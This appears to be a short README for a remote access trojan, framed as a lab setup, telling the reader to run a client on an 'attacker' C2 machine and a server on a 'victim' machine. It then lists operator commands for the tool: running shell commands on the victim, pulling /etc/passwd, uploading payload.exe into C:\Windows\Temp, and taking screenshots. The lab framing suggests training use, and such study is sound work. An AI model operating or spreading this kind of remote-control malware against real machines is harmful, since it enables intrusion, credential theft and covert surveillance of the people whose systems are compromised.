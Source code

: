 # Lab Setup Instructions:

On Attacker VM (C2 Server):


pip install pyautogui
python rat_client.py
On Victim VM:


python rat_server.py
Operation Guide:


# Execute command on victim
RAT> shell whoami

# Download file from victim
RAT> download /etc/passwd

# Upload malware to victim
RAT> upload ./payload.exe C:\\Windows\\Temp\\payload.exe

# Capture victim screen
RAT> screenshot

# Remove RAT from victim
RAT> kill

# Exit C2
RAT> exit